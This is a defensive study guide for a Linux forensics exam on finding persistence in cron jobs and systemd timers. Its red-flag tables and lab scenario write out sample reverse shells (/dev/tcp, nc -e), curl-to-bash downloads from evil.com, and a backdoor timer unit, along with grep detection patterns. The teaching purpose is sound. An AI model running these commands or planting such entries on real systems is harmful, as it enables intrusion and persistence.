



# Analyzing Crontab and Systemd Timers for Persistence

## TCM Exam Objectives

- Enumerate all user crontabs across /var/spool/cron and system-wide crontabs in /etc/crontab and /etc/cron.d
- Inspect @reboot directives and periodic directories (/etc/cron.hourly, .daily) for malicious scripts
- Analyze systemd timer/service unit pairs in /etc/systemd/system/ and ~/.config/systemd/user/
- Detect red flags: ExecStart in /tmp, curl|bash downloads, reverse shells, and misspelled unit names
- Use grep -r to search for suspicious patterns (nc, bash -i, /dev/tcp) across all cron locations
- Verify execution evidence via CRON entries in /var/log/syslog and journalctl for systemd timers
- Correlate cron creation times with auth.log login events to identify attacker access
- Recognize user-level systemd timers as stealthy persistence that runs without root
- Identify beaconing via short OnBootSec and OnUnitActiveSec intervals

Cron jobs and systemd timers are the two primary scheduling mechanisms on Linux that attackers abuse for persistence. Cron uses crontab files and periodic directories (`/etc/cron.d/`, `/etc/cron.hourly/`). Systemd timers use `.timer` and `.service` unit files that can be placed in system or user directories. Both execute commands at boot, on schedule, or on specific events, allowing backdoors, reverse shells, and credential stealers to survive reboots and run at regular intervals.

- Crontab locations: user crontabs, /etc/crontab, /etc/cron.d, periodic directories
- Systemd timer and service unit file anatomy
- Key forensic indicators: @reboot, ExecStart in /tmp, frequent intervals
- cron log and journalctl correlation for execution proof
- User-level persistence via ~/.config/systemd/user/
- Investigation workflow for Linux scheduled task analysis



## Cron Jobs

> 📌 **Exam Tip:** User-level systemd timer units in `~/.config/systemd/user/` are an especially stealthy persistence mechanism because they run under the user's own session and do NOT require root privileges. Standard systemctl list-timers (without --user) will not show them. On the PSAA exam, always include `systemctl --user list-timers` and check `~/.config/systemd/user/` when searching for Linux persistence.

### Crontab Locations

| Location | Contents | Check Method |
|----------|----------|--------------|
| `/var/spool/cron/crontabs/<user>` | Per-user crontab (Debian/Ubuntu) | `crontab -u <user> -l` |
| `/var/spool/cron/<user>` | Per-user crontab (RHEL/CentOS) | `crontab -u <user> -l` |
| `/etc/crontab` | System-wide crontab | `cat /etc/crontab` |
| `/etc/cron.d/` | Additional system crontab files | `cat /etc/cron.d/*` |
| `/etc/cron.hourly/`, `.daily/`, `.weekly/`, `.monthly/` | Periodic script directories | `ls -la /etc/cron.*` |

### Entry Format

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 6)
# │ │ │ │ │
  * * * * *   command to execute
```

Special strings: `@reboot` (most abused---executes at boot), `@daily`, `@hourly`.

### Red Flags in Crontabs

| Indicator | Example |
|-----------|---------|
| Command in writable directory | `* * * * * /tmp/backdoor.sh` |
| Download and execute | `@reboot curl -s http://evil.com/shell.sh | bash` |
| Reverse shell | `*/5 * * * * /bin/bash -i >& /dev/tcp/10.0.0.5/4444 0>&1` |
| Encoded payload | `@reboot echo 'BASE64' | base64 -d | bash` |
| Misspelled system name | `* * * * * /usr/bin/systemd-update` |
| Service user running shell | `www-data` running `/tmp/x` |

### Cron Execution Logs

```bash
grep "CRON" /var/log/syslog
grep "CRON" /var/log/cron.log
```

Log lines show the exact command and user:
```
May 18 15:30:01 server CRON[12345]: (www-data) CMD (/tmp/backdoor.sh)
```

## Systemd Timers

### Unit File Locations

| Location | Scope |
|----------|-------|
| `/etc/systemd/system/` | System-wide (administrator installed) |
| `/usr/lib/systemd/system/` | Distribution packages (not modified by attackers) |
| `~/.config/systemd/user/` | Per-user, runs without root |
| `/run/systemd/system/` | Runtime services (volatile) |

### Anatomy of a Malicious Timer Pair

```ini
# /etc/systemd/system/backdoor.timer
[Unit]
Description=Scheduled Backdoor

[Timer]
OnBootSec=30s
OnUnitActiveSec=300s

[Install]
WantedBy=timers.target
```

```ini
# /etc/systemd/system/backdoor.service
[Unit]
Description=Backdoor Service

[Service]
Type=simple
ExecStart=/tmp/backdoor.sh
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

This timer triggers 30 seconds after boot and every 5 minutes thereafter. The `Restart=always` directive respawns the service if it crashes.

### Enumeration Commands

```bash
# List all active timers
systemctl list-timers --all

# List all timer unit files
systemctl list-unit-files --type=timer

# Inspect a unit file
systemctl cat backdoor.timer
systemctl cat backdoor.service

# Check service status
systemctl status backdoor.service
```

### Red Flags in Systemd Timers

| Indicator | Why Suspicious |
|-----------|----------------|
| Unit file in `/etc/systemd/system/` with misspelled name | `systemd-journald.service` (extra hyphen) |
| ExecStart points to `/tmp/`, `/dev/shm/`, `/var/tmp/` | Legitimate services never run from temp |
| ExecStart with download/execute | `ExecStart=/bin/bash -c 'curl http://evil.com/payload.sh | bash'` |
| Restart=always with short RestartSec | Keeps backdoor alive after crashes |
| OnBootSec=0s + short OnUnitActiveSec | Frequent beaconing |
| User timer in `~/.config/systemd/user/` | Stealthy user-level persistence |

### Journalctl Verification

```bash
journalctl -u backdoor.timer
journalctl -u backdoor.service
journalctl -u backdoor.service --since "2026-05-18 14:00:00"
```

> 📌 **Exam Tip:** The `@reboot` directive in cron is the most commonly abused cron special string for persistence. But don't forget the periodic directories: `/etc/cron.hourly/`, `/etc/cron.daily/`, `/etc/cron.weekly/`, and `/etc/cron.monthly/`. Attackers drop executable scripts directly into these directories — no crontab entry needed. Always run `ls -la /etc/cron.*` as part of your persistence investigation.

## Investigation Workflow



### Step 1: Collect All Scheduled Tasks

```bash
# All user crontabs
for user in $(cut -f1 -d: /etc/passwd); do echo "=== $user ==="; crontab -u $user -l 2>/dev/null; done

# System crontabs
cat /etc/crontab
ls -la /etc/cron.d/ && cat /etc/cron.d/*
ls -la /etc/cron.{hourly,daily,weekly,monthly}/

# Systemd timers
systemctl list-timers --all --no-pager
systemctl list-unit-files --type=timer --no-pager
```

### Step 2: Search for Suspicious Patterns

```bash
grep -rE '(curl|wget|nc |bash -i|python -c|perl -e|socat|/dev/tcp)' /var/spool/cron/ /etc/cron* ~/.config/systemd/

grep -rE 'ExecStart=.*/(tmp|dev/shm|var/tmp|home/)' /etc/systemd/system/ ~/.config/systemd/

grep -r '@reboot' /var/spool/cron/ /etc/crontab /etc/cron.d/
```

### Step 3: Correlate with Auth Logs

```bash
grep "www-data" /var/log/auth.log | grep "session opened"
```

If the cron job was set for user `www-data`, check the auth.log for SSH logins matching the cron creation time.

### Step 4: Verify Execution

```bash
grep "CRON" /var/log/syslog | grep "backdoor.sh"
journalctl -u suspicious.service --since "1 hour ago"
```

<details>
<summary>Hands-On: Cron Backdoor Investigation</summary>

**Scenario**: IDS alert shows `WEB-01` connecting to `203.0.113.50:4444` every 5 minutes via a process spawned by cron.

**Step 1**: List all crontabs. Found entry for `www-data`:
```
*/5 * * * * /var/www/html/cache/cron.sh
```

**Step 2**: Inspect the script:
```bash
cat /var/www/html/cache/cron.sh
```
Content: `/bin/nc 203.0.113.50 4444 -e /bin/bash &`

**Step 3**: Verify execution in syslog:
```
May 18 15:30:01 WEB-01 CRON[12345]: (www-data) CMD (/var/www/html/cache/cron.sh)
```

**Step 4**: Check auth.log---SSH login for www-data at 15:25, shortly before the cron was created.

**Conclusion**: Attacker used SSH to access as www-data, set a cron-based reverse shell beaconing every 5 minutes. Critical severity.
</details>

## Quick Reference

### Cron Locations

| Location | Contents |
|----------|----------|
| `/var/spool/cron/crontabs/<user>` | Per-user crontab (Debian/Ubuntu) |
| `/var/spool/cron/<user>` | Per-user crontab (RHEL/CentOS) |
| `/etc/crontab` | System-wide crontab |
| `/etc/cron.d/` | Additional system crontab files |
| `/etc/cron.hourly/`, `.daily/`, `.weekly/`, `.monthly/` | Periodic directories |

### Systemd Timer Locations

| Location | Scope |
|----------|-------|
| `/etc/systemd/system/` | System timers |
| `~/.config/systemd/user/` | User timers |
| `/run/systemd/system/` | Runtime timers |

### Key Commands

```bash
# Dump all user crontabs
for user in $(cut -f1 -d: /etc/passwd); do echo "=== $user ==="; crontab -u $user -l 2>/dev/null; done

# List systemd timers
systemctl list-timers --all
systemctl list-unit-files --type=timer

# Search for suspicious patterns
grep -rE '(curl|wget|nc |bash -i|/dev/tcp|@reboot)' /var/spool/cron/ /etc/crontab /etc/cron.d/
grep -rE 'ExecStart=.*/(tmp|dev/shm|var/tmp|home/)' /etc/systemd/system/ ~/.config/systemd/

# Check logs
grep 'CRON' /var/log/syslog
journalctl -u <timer>.timer
```



## Recap

Cron jobs and systemd timers are the two primary Linux persistence mechanisms. Cron entries in user crontabs, `/etc/crontab`, and `/etc/cron.d/` with `@reboot` or commands in `/tmp/` are highly suspicious. Systemd timer/service unit pairs in `/etc/systemd/system/` or `~/.config/systemd/user/` with `ExecStart` pointing to writable directories provide stealthy persistence. Always check cron logs and systemd journal for execution proof. Correlate with auth.log for login times and bash history for crontab creation commands.
